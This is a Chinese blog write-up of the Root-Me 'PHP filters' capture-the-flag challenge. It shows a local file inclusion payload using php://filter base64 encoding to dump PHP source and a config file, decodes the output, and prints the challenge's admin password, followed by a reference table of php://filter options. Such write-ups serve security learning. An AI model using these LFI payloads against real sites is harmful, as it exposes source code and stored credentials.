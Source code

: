 <!--yml
category: 未分类
date: 2022-04-26 14:40:15
-->

# CTF-rootme 题解之PHP filters_weixin_30384031的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30384031/article/details/99600336](https://blog.csdn.net/weixin_30384031/article/details/99600336)

LINK:[https://www.root-me.org/en/Challenges/Web-Server/PHP-filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-filters)

　　  [https://challenge01.root-me.org/web-serveur/ch12/](https://challenge01.root-me.org/web-serveur/ch12/)

 Referrence:[https://www.leavesongs.com/PENETRATION/php-filter-magic.html](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

　　  　　　[https://blog.csdn.net/qq_29419013/article/details/81201494](https://blog.csdn.net/qq_29419013/article/details/81201494) 　

1、测试文件包含漏洞是否存在

访问https://challenge01.root-me.org/web-serveur/ch12/?inc=test.php页面返回如下信息(文件不存在):

```
Warning: include(test.php): failed to open stream: No such file or directory in /challenge/web-serveur/ch12/ch12.php on line 26

Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch12/ch12.php on line 26 
```

访问https://challenge01.root-me.org/web-serveur/ch12/?inc=ch12.php页面返回正常.

 证明此页面存在本地文件(LFI)包含漏洞,如果我正常用LFI去读ch12.php文件 是无法读取它的源码 它会被当做php文件被执行,可以使用**php://filter/read=convert.base64-encode/resource=**来读取文件的base64编码的源码。

2.构造访问链接https://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=ch12.php得到如下HASH值：

```
PD9waHAKCiRpbmM9ImFjY3VlaWwucGhwIjsKaWYgKGlzc2V0KCRfR0VUWyJpbmMiXSkpIHsKICAgICRpbmM9JF9HRVRbJ2luYyddOwogICAgaWYgKGZpbGVfZXhpc3RzKCRpbmMpKXsKCSRmPWJhc2VuYW1lKHJlYWxwYXRoKCRpbmMpKTsKCWlmICgkZiA9PSAiaW5kZXgucGhwIiB8fCAkZiA9PSAiY2gxMi5waHAiKXsKCSAgICAkaW5jPSJhY2N1ZWlsLnBocCI7Cgl9CiAgICB9Cn0KCmluY2x1ZGUoImNvbmZpZy5waHAiKTsKCgplY2hvICcKICA8aHRtbD4KICA8Ym9keT4KICAgIDxoMT5GaWxlTWFuYWdlciB2IDAuMDE8L2gxPgogICAgPHVsPgoJPGxpPjxhIGhyZWY9Ij9pbmM9YWNjdWVpbC5waHAiPmhvbWU8L2E

```

使用下面的命令来解码ch12.php这个文件的源代码得到如下信息：

```
[ BlackArch Downloads ]# echo -n 'PD9waHAKCiRpbmM9ImFjY3VlaWwucGhwIjsKaWYgKGlzc2V0KCRfR0VUWyJpbmMiXSkpIHsKICAgICRpbmM9JF9HRVRbJ2luYyOwogICAgaWYgKGZpbGVfZXhpc3RzKCRpbmMpKXsKCSRmPWJhc2VuYW1lKHJlYWxwYXRoKCRpbmMpKTsKCWlmICgkZiA9PSAiaW5kZXgucGhwIiB8fCAkZiA9PSAiY2gxMi5waHAiKXsKCSAgICAkaW5jPSJhY2N1ZWlsLnBocCI7Cgl9CiAgICB9Cn0KCmluY2x1ZGUoImNvbmZpZy5waHAiKTsKCgplY2hvICcKICA8aHRtbD4KICA8Ym9keT4KICAgIDxoMT5GaWxlTWFuYWdlciB2IDAuMDE8L2gxPgogICAgPHVsPgoJPGxpPjxhIGhyZWY9Ij9pbmM9YWNjdWVpbC5waHAiPmhvbWU8L2E' |base64 -d
<?php

$inc="accueil.php";
if (isset($_GET["inc"])) {
    $inc=$_GET['inc'];
    if (file_exists($inc)){
	$f=basename(realpath($inc));
	if ($f == "index.php" || $f == "ch12.php"){
	    $inc="accueil.php";
	}
    }
}

include("config.php");

echo '
  <html>
  <body>
    <h1>FileManager v 0.01</h1>
    <ul>
	<li><a href="?inc=accueil.php">home</abase64: invalid inpu

```

 访问https://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php：得到hash如下：

```
PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==
```

 **解码得到admin的密码为**DAPt9D2mky0APAF

```
[ BlackArch Downloads ]# echo -n 'PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==' |base64 -d
<?php

$username="admin";
$password="DAPt9D2mky0APAF";

?>

```

**附：**

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称 | 描述 | 备注 |
| --- | :-- | :-- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流。 | 必选 |
| read=<读链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 | 可选 |
| write=<写链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 | 可选 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |   |

php://filter筛选过滤应用： 

1、 字符串过滤器：

*   :string.rot13 对字符串执行ROT13转换
*   string.toupper转换为大写
*   string.tolower 转换为小写
*   string.strip_tags去除html和php标记

2、 转换过滤器：

*   **convert.base64-encode & convert.base64-decode** **：****base64****编码****/****解码**
*   **convert.quoted-printable-encode & convert.quoted-printable-decode****：**将 quoted-printable 字符串转换为 8-bit 字符串

3、 压缩过滤器：

*   *zlib.deflate***和***zlib.inflate*
*   *bzip2.compress***和***bzip2.decompress*

4、 加密过滤器：

*   mcrypt.tripledes和mdecrypt.tripledes等

```
readfile("php://filter/read=string.toupper/resource=http://www.example.com");//将www.example.com中的内容转换为大写后输出

file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");//将字符串”hello world”经过rot13编码后写入example.txt
```